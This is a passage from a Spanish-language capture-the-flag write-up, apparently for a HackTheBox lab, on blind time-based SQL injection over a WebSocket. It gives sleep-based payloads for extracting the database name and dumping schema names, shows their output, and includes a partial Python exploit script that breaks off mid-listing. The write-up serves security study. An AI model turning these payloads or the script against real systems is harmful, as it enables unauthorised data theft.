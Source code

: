 Si ejecutamos el *script* y esperemos un poco:

```bash
python3 prueba.py 
[°] SQLI: {"id":"1 or if(substr((database()),8,1)='d',sleep(2),1)"}
[v] BBDD: : soccer_db
[!] Saliendo...
```

La base de datos en uso es ***soccer_db***.

### Bases de datos existentes

Para volcar todas las **bases de datos** la *query* será la siguiente:

```python
"{"id":"1 or if(substr((select group_concat(schema_name) from information_schema.schemata),{position},1)='{letter}',sleep(2),1)}"
```

La lógica es exactamente la misma que en el caso anterior, pero ahora, se utiliza ***schema_name) from information_schema.schemata*** para volcar las *databases*. ***group_contat*** sirve para concatenar todas las bases de datos en una misma línea, separadas por comas.

A continuación dejo el ***script***:      

```python
import asyncio
import websockets
import signal,sys,string,time
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#Ctrl+C 
signal.signal(signal.SIGINT,def_handler)

#Variables globales
letters = string.ascii_lowercase + string.punctuation
burp = {'http':'http://127.0.0.1:8080'}
databases = ""
let = ""

async def send_request(request):
    async with websockets.connect('ws://soc-player.soccer.htb:9091/') as websocket:
        await websocket.send(request)
        inicio = time.time()
        response = await websocket.recv()
        fin = time.time()
        response = False
        if fin - inicio >= 2:
            response = True
            global databases
            global let
            databases += let
            p2.status(databases)
        return response

def peticion(request):
    response= asyncio.get_event_loop().run_until_complete(send_request(request))
    return response

if __name__ == "__main__":

    p1 = log.progress("SQLI")
```